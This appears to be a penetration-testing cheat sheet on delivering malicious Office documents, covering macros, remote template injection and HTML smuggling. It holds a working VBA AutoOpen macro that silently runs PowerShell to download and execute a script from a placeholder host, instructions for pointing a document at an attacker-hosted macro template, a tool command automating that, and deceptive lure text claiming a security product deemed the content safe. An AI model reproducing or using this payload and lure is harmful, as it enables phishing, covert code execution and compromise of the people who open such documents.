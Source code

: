 ## bat2exe
- https://github.com/islamadel/bat2exe/releases/tag/2.0


## Macro's
- To prepare the document for delivery, go to File > Info > Inspect Document > Inspect Document, which will bring up the Document Inspector. Click Inspect and then Remove All next to Document Properties and Personal Information.  This is to prevent the username on your system being embedded in the document.
- Entice user to enable Macro's. Message example: "Security Product XYZ has scanned the content and deemed it to be safe.  To reveal the content, click Enable Content"

#### Simple macro
- Save it as `.doc`. Macro in a `.docx` is not possible and the `.docm` has a huge! and might get blocked by email gateways.
```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://<IP>/shell.ps1'))"""

End Sub
```

### Template injection
- Remote Template Injection is a technique where an attacker sends a benign document to a victim, which downloads and loads a malicious template.  This template may hold a macro, leading to code execution.

#### Manual way
1. Create a word document with prefered macro. Save it as `.dot` Word 97-2003 Template (*.dot) file.`
2. Host the template on a webserver for example `http://<IP>/template.dot`
3. Create a new document with the template and save it as `.docx`.
4. Browse to the directory in Windows explorer, right-click and select 7-Zip > Open archive. Navigate to word > _rels, right-click on settings.xml.rels and select Edit.
5. Change the target entry from the one pointing to the local file to the hosted template on the webserver. `Target="http://<IP>/template.dot"`

#### Automated
- https://github.com/JohnWoodman/remoteinjector

```
python3 remoteinjector.py -w http://<IP>/template.dot document.docx
```

## HTML Smuggling
- https://outflank.nl/blog/2018/08/14/html-smuggling-explained/
